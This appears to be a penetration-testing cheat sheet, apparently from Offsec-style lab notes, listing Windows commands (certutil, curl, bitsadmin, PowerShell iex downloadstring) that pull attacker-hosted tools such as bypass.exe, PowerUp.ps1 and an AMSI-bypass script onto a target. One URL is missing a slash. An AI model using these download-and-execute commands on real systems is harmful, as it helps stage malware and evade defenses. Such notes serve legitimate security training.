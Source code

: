 ## Windows File Downloads

#### Certutil 
```
certutil -urlcache http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe
```

#### Curl 
```
curl http://192.168.45.201/bypass.exe -o C:\Users\Offsec\bypass.exe
```

#### Bitsadmin 
```
bitsadmin /Transfer myJob http://192.168.45.201/file.txt C:\Windows\Tasks\file.txt
bitsadmin /create 1 bitsadmin /addfile 1 http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
  reference: https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/

#### Powershell 
```
iex(new-object net.webclient).downloadstring('http://192.168.45.201amsi-reflect.ps1')
iex(new-object net.webclient).downloadstring('http://192.168.45.201/PowerUp.ps1'); Invoke-AllChecks
```
